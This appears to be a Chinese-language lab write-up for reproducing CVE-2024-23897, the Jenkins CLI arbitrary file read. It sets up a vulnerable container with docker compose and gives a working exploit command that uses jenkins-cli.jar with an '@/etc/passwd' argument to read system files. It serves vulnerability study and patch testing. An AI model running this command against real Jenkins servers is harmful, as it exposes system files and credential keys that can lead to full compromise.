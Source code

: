 # CVE-2024-23897 Jenkins 任意文件读取漏洞

​	Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成。Jenkins是开源CI&CD软件领导者， 提供超过1000个插件来支持构建、部署、自动化， 满足任何项目的需要。

​	Jenkins 有一个内置的命令行界面CLI，在处理 CLI 命令时Jenkins 使用args4j 库解析 Jenkins 控制器上的命令参数和选项。此命令解析器具有一个功能，可以将@参数中后跟文件路径的字符替换为文件内容 ( expandAtFiles)。根据Jenkins 官方描述，具有Overall/Read权限的攻击者可以读取整个文件，未授权的攻击者仅能读取文件前几行内容。攻击者可以通过读取jenkins文件获取相关密钥从而实现命令执行。此功能默认启用，Jenkins 2.441 及更早版本、LTS 2.426.2 及更早版本默认不会禁用它。鉴于漏洞 exp 已公开，为避免您的资产受到影响，建议尽快安排修复升级方案

版本影响

<= Jenkins 2.441、<= LTS 2.426.2

项目地址https://www.jenkins.io/zh/

参考链接：

- https://github.com/10T4/PoC-Fix-jenkins-rce_CVE-2024-23897
- https://mirrors.jenkins.io/war-stable/



## 漏洞环境

执行如下命令启动一个jenkins:2.426.2：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`将自动跳转到jenkins安装向导界面

运行`docker ps`    `docker exec -it  xxxxx bash`  进入容器内 `cat /var/jenkins_home/secrets/initialAdminPassword`查看解锁 Jenkins码

![image-20240401181624115](./0.1.png)

等待安装完成 

![image-20240401182007075](./0.2.png)



## 漏洞复现

1，获取jenkins-cli.jar

访问http\://yourip:8080/jnlpJars/jenkins-cli.jar

即可下载

2， 读取/etc/passwd文件

`java -jar jenkins-cli.jar -noCertificateCheck -s http://yourip:8080/ help "@/etc/passwd"`

![image-20240401182406351](./1.png)

![image-20240401182741260](./2.png)